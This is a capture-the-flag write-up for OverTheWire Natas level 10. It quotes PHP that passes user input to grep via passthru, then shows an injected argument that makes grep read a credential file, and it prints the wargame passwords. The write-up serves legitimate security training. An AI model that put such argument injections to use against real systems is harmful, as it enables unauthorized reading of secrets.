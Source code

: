 # Natas Level 10

```bash
Username: natas10
Password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
URL:      http://natas10.natas.labs.overthewire.org
```
We enter the site, and see the following page:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas10.png" />
    <div align="center">Natas 10</div>
</figure>

Clicking on the "View sourcecode" link:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas10-view-sourcecode.png" />
    <div align="center">Natas 10 - View sourcecode</div>
</figure>

The script is very similar to the last one, except the character filtering:
```php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
```
We need to avoid these 3 characters:
* ;
* |
* &amp

If we send the folloing: "1 /etc/natas_webpass/natas11".

This will result in the following [command](http://natas10.natas.labs.overthewire.org/?needle=1+%2Fetc%2Fnatas_webpass%2Fnatas11&amp;submit=Search):
```bash
grep -i 1 /etc/natas_webpass/natas11 dictionary.txt
```

Which will search for the pattern: "1" in both files: /etc/natas_webpass/natas11 and dictionary.txt
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas10-code-injection.png" />
    <div align="center">Natas 10 - Code injection</div>
</figure>

We were lucky, the password contains the substring: "1"

We got the password for the next level: **U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK**